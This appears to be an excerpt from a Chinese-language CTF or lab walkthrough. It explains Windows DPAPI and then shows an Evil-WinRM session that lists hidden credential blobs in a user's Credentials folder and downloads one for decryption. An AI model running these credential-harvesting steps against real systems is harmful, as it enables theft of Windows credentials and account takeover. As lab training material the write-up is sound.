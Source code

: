 ## Root

![](./images/image-37.png)

![](./images/image-38.png)

### 什么是 DPAPI？

**DPAPI**（Data Protection API）是 Windows 操作系统中的一个加密 API，旨在保护敏感数据，比如密码、私钥、凭据等。它为应用程序提供了加密和解密数据的能力，同时隐藏了复杂的加密操作，简化了加密过程。DPAPI 的设计目的是确保只有当前用户或系统能够访问这些加密数据。

### DPAPI 的工作原理

- **加密**：当一个应用程序或 Windows 系统需要存储敏感信息时，它可以通过 DPAPI 将数据加密。加密使用的是用户的登录凭据（如用户的登录密码或计算机的密钥）来生成加密密钥。

- **解密**：只有在相同的用户上下文中，DPAPI 才能使用相同的密钥来解密数据。这样，如果一个应用程序或服务尝试访问加密的凭据或数据，只有当前登录用户或者管理员可以解密并访问这些信息。

- **安全性**：DPAPI 是基于 Windows 操作系统中的账户认证信息的，因此它的加密密钥与用户的登录凭据紧密关联，保证只有特定用户才能访问其自己的加密数据。

这里通过DPAPI来获取Windows的身份凭证

```
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir -h

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
---- ------------- ------ ----
-a-hs- 6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials>download C4BB96844A5C9DD45D5B6A9859252BA6
```
